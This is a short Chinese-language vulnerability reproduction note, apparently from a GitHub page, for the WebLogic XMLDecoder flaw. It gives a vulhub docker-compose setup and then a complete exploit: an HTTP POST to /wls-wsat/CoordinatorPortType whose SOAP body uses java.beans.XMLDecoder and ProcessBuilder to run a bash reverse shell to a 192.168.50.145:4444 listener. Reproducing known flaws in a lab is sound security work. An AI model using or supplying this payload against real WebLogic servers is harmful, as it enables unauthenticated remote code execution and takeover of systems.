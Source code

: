 Weblogic-XMLDecoder 漏洞复现
========================

vulhub 直接搭建环境，记得修改 docker-compose.yml 为如下

```
version: '2'
services:
 weblogic:
   image: vulhub/weblogic
   ports:
    - "7001:7001"
    - "8453:8453"

```

exp 如下

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 192.168.50.145:7001
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-type: text/xml
Connection: close
Content-Length: 639

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i >& /dev/tcp/192.168.50.145/4444 0>&1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>

```
